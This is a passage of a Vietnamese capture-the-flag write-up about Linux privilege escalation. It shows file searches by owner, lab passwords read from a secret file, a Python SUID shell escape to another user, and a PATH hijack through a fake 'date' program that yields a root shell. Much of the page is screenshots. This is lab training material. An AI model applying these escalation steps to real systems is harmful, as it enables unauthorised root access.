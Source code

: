 ```bash=
find / -type f -user 1001 2>/dev/null
find / -type f -user 1000 2>/dev/null
```

![image](https://hackmd.io/_uploads/rke5umvLp.png)

Đọc file secret của Oliver ta nhận được thông tin đăng nhập
> my password - 4hppfvhb9pW4E4OrbMLwPETRgVo2KyyDTqGF

![image](https://hackmd.io/_uploads/ByC1FmvUa.png)

ssh vào user oliver
![image](https://hackmd.io/_uploads/rJt9YmDIp.png)

Vừa ta đã biết oscar là chủ sở hữu của python3 do vậy payload 
```python=
python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
 
ta sẽ leo sang oscar.

![image](https://hackmd.io/_uploads/S1Xe5mDIT.png)

![image](https://hackmd.io/_uploads/SkyXqXwI6.png)

```
H53QfJcXNcur9xFGND3bkPlVlMYUrPyBp76o
```

SSH qua Oscar 
![image](https://hackmd.io/_uploads/ByY857D8p.png)

![image](https://hackmd.io/_uploads/S1Ss5mDUa.png)

Chương trình current-date trả về thời gian hiện tại

![image](https://hackmd.io/_uploads/B1ERcQvL6.png)

Kiểm tra $PATH

![image](https://hackmd.io/_uploads/SJLbiXD8p.png)

vì nó call đến date theo thứ tự trong $PATH nên ta đơn giản chỉ cần tạo prog date chứa /bin/bash là khi chạy current-date nó sẽ excute /bin/bash với quyền root và ta có thể leo lên root rồi.
![image](https://hackmd.io/_uploads/HkE_hXPU6.png)


![image](https://hackmd.io/_uploads/rkoI3QwL6.png)

Lấy được flag 2 
![image](https://hackmd.io/_uploads/SJmh37v86.png)

## Flag 3
![image](https://hackmd.io/_uploads/ry8ITmPLT.png)
